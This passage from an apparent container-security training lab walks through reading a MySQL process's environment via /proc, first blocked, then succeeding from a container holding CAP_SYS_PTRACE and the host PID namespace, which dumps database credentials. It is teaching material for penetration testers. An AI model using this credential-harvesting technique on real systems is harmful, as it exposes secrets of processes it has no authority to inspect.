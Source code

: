 ```
victim:/# ps | grep mysqld
40554 999       1:51 mysqld
54640 root      0:00 grep mysqld

victim:/# cd /proc/40554

victim:/proc/40554# cat environ
cat: can't open 'environ': Permission denied
```

> Listing 36 - Permission Denied when Accessing Environ

The MySQL process doesn't allow us to read the process information. This is because the MySQL container runs MySQL with a user ID of 999. Since this is different from our user ID (0), we cannot access its information. If we wanted to access it, we'd need to have access to the CAP_SYS_PTRACE capability. Let's verify that we don't have that capability. The victim container has access to the **capsh** binary that we can use with **--print** to display the capabilities.

```
victim:~# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap=ep
...
victim:~# 
```

> Listing 37 - Finding that Current Victim Does not have CAP_SYS_PTRACE

The output does not show that we have access to CAP_SYS_PTRACE. However, for the purposes of demonstration, we have access to another container on port 2223, which shares the host's PID namespace and has the required capabilities. Let's connect to this container via SSH.

```
victim:~# exit
Connection to sandbox closed.

kali@kali:~$ ssh -p 2223 root@sandbox
root@sandbox's password:
Welcome to Alpine!
....

victim_ptrace:~# 
```

> Listing 38 - Logging into Victim with CAP_SYS_PTRACE

Next, let's verify that we do indeed have the CAP_SYS_PTRACE capability and attempt to view the mysqld **environ** contents.

```
victim_ptrace:~# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap=ep
...

victim_ptrace:~# cat /proc/40554/environ
MYSQL_PASSWORD=passwordHOSTNAME=12042c4d929cMYSQL_DATABASE=dbMYSQL_ROOT_PASSWORD=passwordPWD=/HOME=/var/lib/mysqlMYSQL_MAJOR=8.0GOSU_VERSION=1.14MYSQL_USER=userMYSQL_VERSION=8.0.30-1.el8SHLVL=0MYSQL_ROOT_HOST=%PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binMYSQL_SHELL_VERSION=8.0.30-1.el8
```
